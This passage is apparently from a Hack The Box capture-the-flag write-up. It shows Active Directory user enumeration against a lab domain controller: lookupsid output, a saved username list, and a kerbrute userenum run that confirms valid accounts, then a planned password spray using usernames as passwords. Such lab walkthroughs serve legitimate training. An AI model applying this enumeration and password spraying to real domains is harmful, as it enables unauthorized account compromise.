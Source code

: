 ```bash
1113: MANAGER\Zhong (SidTypeUser)
1114: MANAGER\Cheng (SidTypeUser)
1115: MANAGER\Ryan (SidTypeUser)
1116: MANAGER\Raven (SidTypeUser)
1117: MANAGER\JinWoo (SidTypeUser)
1118: MANAGER\ChinHae (SidTypeUser)
1119: MANAGER\Operator (SidTypeUser)
```

Bingo! With lookupsid, the domain users are found. Let me save them to a file for later use.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat usernames.txt 
Administrator
Guest 
krbtgt
DC01$
Zhong
Cheng
Ryan 
Raven
JinWoo 
ChinHae
Operator
```

```bash
┌──(kali㉿kali)-[~/htb]
└─$ kerbrute_linux_arm64 userenum -d manager.htb --dc 10.10.11.236 usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 11/27/24 - Ronnie Flathers @ropnop

2024/11/27 14:59:54 >  Using KDC(s):
2024/11/27 14:59:54 >   10.10.11.236:88

2024/11/27 14:59:54 >  [+] VALID USERNAME:       DC01$@manager.htb
2024/11/27 14:59:54 >  [+] VALID USERNAME:       Zhong@manager.htb
2024/11/27 14:59:54 >  [+] VALID USERNAME:       Administrator@manager.htb
2024/11/27 14:59:54 >  [+] VALID USERNAME:       Cheng@manager.htb
2024/11/27 14:59:54 >  [+] VALID USERNAME:       ChinHae@manager.htb
2024/11/27 14:59:54 >  [+] VALID USERNAME:       Raven@manager.htb
2024/11/27 14:59:54 >  [+] VALID USERNAME:       Operator@manager.htb
2024/11/27 14:59:54 >  Done! Tested 11 usernames (7 valid) in 0.267 seconds
```

Double Check! As of now, let's try password spray attack using the list. There might be users whoc are using their username as their password.
